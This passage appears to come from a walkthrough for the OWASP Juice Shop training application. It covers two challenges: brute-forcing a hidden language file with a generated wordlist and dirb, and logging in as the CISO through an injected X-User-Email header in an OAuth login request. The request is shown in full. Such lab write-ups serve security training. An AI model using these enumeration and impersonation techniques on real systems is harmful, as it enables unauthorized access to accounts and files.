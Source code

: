 #### 33: "Retrieve the language file that never made it into production."
* solve challenge 5 first

Change the language a few times and look at the HTTP request history.
You can see that the files are located in the /i18n/ folder and that they have a .json ending.
`GET /i18n/sv.json HTTP/1.1`

We can use dirb to run through all the language files, but we need a full word list.
Let's generate our own:
``` python
#!/usr/bin/python

from itertools import product
from string import ascii_lowercase

length = input("Enter length of words to be generated: ")
print "Generating wordlist with length", length

f = open('wordlist.txt', 'w')

for count, i in enumerate(product(ascii_lowercase, repeat=length)):
    f.write(''.join(i) + '\n')
print "words generated: %d" % count

f.close()

```

Let's generate all words with length **3** and then run `dirb` with the following parameters:

``` bash
dirb "http://192.168.99.100:3000/i18n/" wordlist.txt -X .json
```
We can find `tlh.json` with this method and solve the challenge (tlh is Klingon).

#### 34: "Exploit OAuth 2.0 to log in with the Chief Information Security Officer's user account."
* solve challenge 6 first

Login with a valid Google Account and intercept the communication with Burp.
Look at the packet containing the `POST` to `/rest/user/login` and manually add the Header: `X-User-Email: ciso@juice-sh.op`. You can leave the Body like it is `({"email":"something@gmail.com","password":"c29tZXRoaW5nQGdtYWlsLmNvbQ==","oauth":true})`.

```
POST /rest/user/login HTTP/1.1
Host: 192.168.99.100:3000
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:45.0) Gecko/20100101 Firefox/45.0
Accept: application/json, text/plain, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/json;charset=utf-8
Referer: http://192.168.99.100:3000/
X-User-Email: ciso@juice-sh.op
Content-Length: 88
Connection: close

{"email":"something@gmail.com","password":"c29tZXRoaW5nQGdtYWlsLmNvbQ==","oauth":true}
```
